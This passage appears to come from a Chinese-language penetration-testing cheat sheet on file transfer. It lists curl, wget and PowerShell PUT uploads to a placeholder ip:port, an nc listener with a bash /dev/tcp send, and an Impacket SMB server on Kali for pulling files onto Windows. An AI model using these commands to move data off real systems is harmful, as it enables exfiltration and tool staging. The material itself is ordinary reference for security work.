 #### 	Linux

##### 	curl

```
curl --upload-file [file] http://[ip]:[port]/
```

##### 	wget

```
wget --method = PUT --post-file = [file] http://ip:port/ 
```

#### windows

##### 	powershell

```
$body  = Get-content [file]
Invoke-RestMethod -Uri http://ip:port/[filename] -Method PUT -Body $body
```

### 使用 Bash /dev/tcp 进行文件传输

nc 建立tcp通道

```
接受端
nc -lvnp [port] > [file]
发送端
cat [file] > /dev/tcp/ip/port
```

### 使用 SMB 协议进行文件传输

#### 搭建简易 SMB Server

搭建简易SMB Server 需要用到 [Impacket](https://github.com/SecureAuthCorp/impacket) 项目的 `smbserver.py` 文件

`Impacket` 已默认安装在 Kali Linux 系统中

**syntax:** `impacker-smbserver ShareName SharePath`

```
$ mkdir smb # 创建 smb 目录
$ cd smb # 进入 smb目录
$ impacket-smbserver share `pwd` # 在当前目录启动 SMB server，共享名称为 share
```

效果：

![img](https://images.seebug.org/content/images/2019/03/05/1551770375000-2019-01-13-151350-1551770337610.png-w331s)

#### 从 SMB server 下载文件

```
copy \\IP\ShareName\file.exe file.exe
```
